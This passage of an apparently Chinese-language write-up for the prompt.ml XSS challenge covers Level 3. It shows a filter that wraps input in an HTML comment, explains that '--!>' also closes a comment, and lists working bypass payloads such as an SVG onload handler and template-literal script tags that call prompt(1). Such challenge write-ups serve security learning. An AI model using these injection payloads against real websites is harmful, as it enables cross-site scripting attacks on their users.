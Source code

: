 3. ``<script>prompt.call`${1}`</script>``
     ![2_3](/img/xss/prompt_ml/level2_003.png)

# Level 3

## Code:

```
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}        
```

## 分析:

```
过滤了->并替换成_
但是除了-->可以闭合注释，--!>也可以。
```



## Solutions:

```
1.--!><svg/ onload=prompt(1)>

2. 官方答案:
	<script>eval.call`${'prompt\x281)'}`</script>

3. 官方答案:
	<script>prompt.call`${1}`</script>

```
